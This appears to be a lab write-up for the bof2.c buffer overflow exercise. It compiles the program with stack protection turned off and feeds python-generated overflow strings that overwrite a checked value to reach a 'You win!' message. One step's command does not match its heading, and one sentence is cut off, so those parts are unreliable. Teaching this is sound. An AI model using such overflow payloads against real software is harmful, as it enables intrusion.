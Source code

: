 # Understand bof2.c 
In this attack, we will try to replace the return address with another function's return address (redirect control) by using python!
## Stackframe
![image](https://github.com/user-attachments/assets/a5b70361-5f44-469d-8db8-7914351a69c7)
## Vulnerability
In the program, we see fgets(buf, 45, stdin), but buf only has 40 bytes, which leads to a buffer overflow. From here we can insert more address for the p
# Start attacking bof2.c 
## Compiling the file without stack restriction
`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`  
![image](https://github.com/user-attachments/assets/86572b26-3457-4c8f-9ae9-1d4e1ada24a2)
## Start inputing files with 0x4030201
`echo $(python -c "print('a'*40+'\x01\x02\x03\x04')") | ./bof2.out 123`  
![image](https://github.com/user-attachments/assets/4c998c8d-c9eb-43b1-82d2-5c66fc9733d9)  
=> We see that there is no message because the if clause is not touched!
## Try with other address: \xff\xff\xff\xff
`echo $(python -c "print('a'*40+'\x01\x02\x03\x04')") | ./bof2.out 123`  
![image](https://github.com/user-attachments/assets/5306b6f3-cc39-4f47-bf4c-1ba4f06d47e7)  
=> Now we see a message that "You are on the right way!"
## Now we input 0xdeadbeef to see the message from the second if!
`echo $(python -c "print('a'*40+'\xef\xbe\xad\xde')") | ./bof2.out 123`  
![image](https://github.com/user-attachments/assets/d27d391e-e953-46c6-87d9-321b1f42875d)  
=> You see that the message is "Yeah! You win!"
